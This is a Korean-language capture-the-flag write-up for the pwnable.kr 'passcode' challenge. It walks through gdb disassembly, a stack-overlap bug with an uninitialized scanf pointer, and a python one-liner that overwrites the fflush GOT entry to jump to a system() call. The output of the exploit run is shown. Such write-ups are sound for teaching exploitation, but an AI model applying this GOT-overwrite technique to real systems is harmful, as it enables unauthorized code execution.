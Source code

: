 ```yaml
---
title: "pwnable.kr - Toddler's bottle #4 passcode"
date: 2020-03-08
categories:
  - Information Security
tags:
  - pwnable.kr
---
```


[pwnable.kr][pwnable.kr] Toddler's bottle의 #4 passcode 문제 풀이

gdb로 disas 해보면 대략 이렇게 생겨먹었다
~~~
(gdb) disas main
Dump of assembler code for function main:
   0x08048665 <+0>:     push   %ebp
   0x08048666 <+1>:     mov    %esp,%ebp
   0x08048668 <+3>:     and    $0xfffffff0,%esp
   0x0804866b <+6>:     sub    $0x10,%esp
   0x0804866e <+9>:     movl   $0x80487f0,(%esp)
   0x08048675 <+16>:    call   0x8048450 <puts@plt>
   0x0804867a <+21>:    call   0x8048609 <welcome>
   0x0804867f <+26>:    call   0x8048564 <login>
   0x08048684 <+31>:    movl   $0x8048818,(%esp)
   0x0804868b <+38>:    call   0x8048450 <puts@plt>
   0x08048690 <+43>:    mov    $0x0,%eax
   0x08048695 <+48>:    leave
   0x08048696 <+49>:    ret

(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:     push   %ebp
   0x0804860a <+1>:     mov    %esp,%ebp
   0x0804860c <+3>:     sub    $0x88,%esp
   0x08048612 <+9>:     mov    %gs:0x14,%eax
   0x08048618 <+15>:    mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:    xor    %eax,%eax
   0x0804861d <+20>:    mov    $0x80487cb,%eax
   0x08048622 <+25>:    mov    %eax,(%esp)
   0x08048625 <+28>:    call   0x8048420 <printf@plt>
   0x0804862a <+33>:    mov    $0x80487dd,%eax
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:    mov    $0x80487e3,%eax
   0x08048643 <+58>:    lea    -0x70(%ebp),%edx
   0x08048646 <+61>:    mov    %edx,0x4(%esp)
   0x0804864a <+65>:    mov    %eax,(%esp)
   0x0804864d <+68>:    call   0x8048420 <printf@plt>
   0x08048652 <+73>:    mov    -0xc(%ebp),%eax
   0x08048655 <+76>:    xor    %gs:0x14,%eax
   0x0804865c <+83>:    je     0x8048663 <welcome+90>
   0x0804865e <+85>:    call   0x8048440 <__stack_chk_fail@plt>
   0x08048663 <+90>:    leave
   0x08048664 <+91>:    ret

(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     sub    $0x28,%esp
   0x0804856a <+6>:     mov    $0x8048770,%eax
   0x0804856f <+11>:    mov    %eax,(%esp)
   0x08048572 <+14>:    call   0x8048420 <printf@plt>
   0x08048577 <+19>:    mov    $0x8048783,%eax
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
=> 0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    $0x8048786,%eax
   0x0804859d <+57>:    mov    %eax,(%esp)
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    $0x8048783,%eax
   0x080485aa <+70>:    mov    -0xc(%ebp),%edx
   0x080485ad <+73>:    mov    %edx,0x4(%esp)
   0x080485b1 <+77>:    mov    %eax,(%esp)
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:    movl   $0x8048799,(%esp)
   0x080485c0 <+92>:    call   0x8048450 <puts@plt>
   0x080485c5 <+97>:    cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   movl   $0x80487a5,(%esp)
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   0x080485ef <+139>:   leave
   0x080485f0 <+140>:   ret
   0x080485f1 <+141>:   movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:   call   0x8048450 <puts@plt>
   0x080485fd <+153>:   movl   $0x0,(%esp)
   0x08048604 <+160>:   call   0x8048480 <exit@plt>
~~~

welcome에서 보면 ebp-0x70 ~ ebp-0xc 를 user input으로 받는다
~~~
   0x0804862a <+33>:    mov    $0x80487dd,%eax
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
~~~

passcode.c를 보면 scanf를 쓰는데 passcode1이 주소가 아니라 그냥 값이 들어감
~~~
void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);
~~~

저 passcode1에 해당하는 곳은 ebp-0x10임 
~~~
   0x08048577 <+19>:    mov    $0x8048783,%eax
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
=> 0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
~~~

welcome과 login은 ebp가 같다. 그리고 welcome은 ebp-0x70 ~ ebp-0xc를 쓴다. 다시 말해 100자를 다 주면 마지막 4자는 ebp-0x10 ~ ebp-0xc를 덮어쓸 것이고 다시 말해 임의의 주소의 값을 내가 바꿀수 있다

그럼 뭘 바꾸지? scanf 이후에 보면 이런게 있다
~~~
   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
~~~

call은 결국 push eip, jmp address 이다. 근데 address에 해당하는 0x8048430을 보면

~~~
(gdb) disas /r 0x8048430,+0x10
Dump of assembler code from 0x8048430 to 0x8048440:
   0x08048430 <fflush@plt+0>:   ff 25 04 a0 04 08       jmp    *0x804a004
   0x08048436 <fflush@plt+6>:   68 08 00 00 00  push   $0x8
   0x0804843b <fflush@plt+11>:  e9 d0 ff ff ff  jmp    0x8048410
~~~

이렇게 생겼음. 즉 0x8048432를 조작하면 우리가 원하는 곳으로 jump할 수 있다. 

우리가 jump 하고 싶은 곳은 여기일 것이다
~~~
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>
~~~

즉 96자 아무거나 + \x32\x84\x04\x08 한 다음에 scanf로 0x80485e3 = 134,514,147 하면 될 것 같다
~~~
python -c "print 'a'*96+'\x32\x84\x04\x08';print '134514147'" | ./passcode
~~~

...라고 생각했으나 잘못된 생각이었다.
instruction이 있는 곳은 read + execute라서 write가 안된다. 그래서 segmentation fault가 뜸

다시 한번 보면 jmp \*0x804a004 는 다시 말해 0x804a004를 dereference해서 jump한다는 거니까 이건 바꿀수 있을것 같다

~~~
passcode@pwnable:~$ python -c "print 'a'*96+'\x04\xa0\x04\x08';print '134514147'" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
<tag output>
enter passcode1 : Now I can safely trust you that you have credential :)
~~~

푼것에 대해 좀 더 알아보자

~~~
passcode@pwnable:~$ file passcode
passcode: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=d2b7bd64f70e46b1b0eb7036b35b24a651c3666b, not stripped
~~~

passcode는 dynamically linked 되어 있다
dynamic link 방식으로 프로그램이 만들어지면 함수를 호출할때 PLT (Procedure Linkage Table) 를 참조한다. 아마 아래 부분일거다
~~~
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
~~~
PLT에서는 GOT로 점프한다. 그게 아래일 것이다
~~~
(gdb) disas /r 0x8048430,+0x10
Dump of assembler code from 0x8048430 to 0x8048440:
   0x08048430 <fflush@plt+0>:   ff 25 04 a0 04 08       jmp    *0x804a004
   0x08048436 <fflush@plt+6>:   68 08 00 00 00  push   $0x8
   0x0804843b <fflush@plt+11>:  e9 d0 ff ff ff  jmp    0x8048410
~~~
내가 푼 방법은 GOT로 점프하는 부분의 주소를 바꿔치기 한것이다
실제라면 GOT로 점프 한 후 dl_resolve를 통해 실제 함수 주소를 가져오고, GOT에 그 주소를 써준 후 해당 함수를 호출하는 식으로 된다고 한다


[pwnable.kr]: https://pwnable.kr

<!-- Sorry mom.. I got confused about scanf usage :( -->